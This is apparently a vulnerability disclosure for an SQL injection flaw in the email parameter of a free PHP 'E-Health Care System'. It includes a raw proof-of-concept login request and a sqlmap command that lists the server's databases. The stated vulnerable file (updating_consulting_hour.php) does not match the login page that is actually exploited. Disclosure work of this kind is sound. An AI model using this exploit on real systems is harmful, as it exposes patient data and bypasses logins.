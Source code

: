 ## E-Health Care System has SQL injection vulnerability

## supplier
https://code-projects.org/e-health-care-system-in-php-css-js-and-mysql-free-download/
## Vulnerability file
/Doctor/updating_consulting_hour.php
## describe
An unrestricted SQL injection attack exists in the  E-Health Care System. The parameters that can be controlled are as follows: email.  This function executes the email  parameter into the SQL statement without any restrictions.  A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database. Or bypass the login function by sql injection.
## code analysis
The email parameter in Doctor/doctor_login.php  is controlled and is directly carried into the SQL statement for execution, resulting in SQL injection.

![image-20241106154538422](https://github.com/user-attachments/assets/f7813e35-e9c8-40ad-bcd8-b8cdc407f51d)


POC

```
POST /Doctor/doctor_login.php HTTP/1.1
Host: healthcaresystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://healthcaresystem
Connection: close
Referer: http://healthcaresystem/Doctor/doctor_login.php
Cookie: PHPSESSID=k4kqb2fb6qsevrcvac0th97st0
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=1*&pswd=1234&submit=login
```

sava as 1.txt

excute the command.

```
python sqlmap.py -r 1.txt --dbs
```

![image-20241106155557395](https://github.com/user-attachments/assets/c8f88a57-9887-4323-b3f3-1d7c1bf8541f)

Get database_names

![image-20241106155805823](https://github.com/user-attachments/assets/36ec78f9-545e-4346-a67b-22ece85b0682)










